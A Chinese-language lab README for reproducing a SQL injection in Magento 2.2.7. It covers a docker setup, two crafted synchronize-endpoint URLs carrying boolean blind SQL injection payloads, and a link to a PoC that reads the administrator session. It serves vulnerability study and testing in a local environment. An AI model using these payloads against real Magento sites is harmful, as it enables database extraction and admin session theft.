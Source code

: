# Magento 2.2 SQL注入漏洞

Magento（麦进斗）是一款新的专业开源电子商务平台，采用php进行开发，使用Zend Framework框架。设计得非常灵活，具有模块化架构体系和丰富的功能。

其prepareSqlCondition函数存在一处二次格式化字符串的bug，导致引入了非预期的单引号，造成SQL注入漏洞。

参考链接：

- https://www.ambionics.io/blog/magento-sqli
- https://devdocs.magento.com/guides/v2.2/release-notes/ReleaseNotes2.2.8CE.html

## 环境搭建

执行如下命令启动Magento 2.2.7：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`，即可看到Magento的安装页面。安装Magento时，数据库地址填写`mysql`，账号密码均为`root`，其他保持默认：

![](1.png)

## 漏洞复现

分别访问如下链接：

- <http://your-ip:8080/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=%3f&ids[0][product_id][to]=)))+OR+(SELECT+1+UNION+SELECT+2+FROM+DUAL+WHERE+1%3d0)+--+->
- <http://your-ip:8080/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=%3f&ids[0][product_id][to]=)))+OR+(SELECT+1+UNION+SELECT+2+FROM+DUAL+WHERE+1%3d1)+--+->

可见，在执行`))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=1) -- -`和`))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=0) -- -`时，返回的HTTP状态码不同：

![](2.png)

![](3.png)

通过改变OR的条件，即可实现SQL BOOL型盲注。

利用[这个POC](https://github.com/ambionics/magento-exploits)，可以读取管理员的session：

![](4.png)
